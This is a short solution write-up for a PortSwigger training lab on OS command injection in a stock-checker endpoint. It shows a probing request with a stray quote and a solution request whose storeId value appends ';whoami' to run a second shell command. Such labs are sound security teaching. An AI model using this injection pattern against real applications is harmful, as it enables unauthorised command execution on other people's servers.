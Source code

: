 # [Lab: OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

## Lab

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

## Analysis

error:

```http
POST /product/stock HTTP/1.1

productId=1&storeId='

HTTP/1.1 200 OK

sh: 1: Syntax error: Unterminated quoted string
```

## Solutions

```http
POST /product/stock HTTP/1.1

productId=1&storeId=2;whoami

HTTP/1.1 200 OK

22
peter-0pNtjC
```
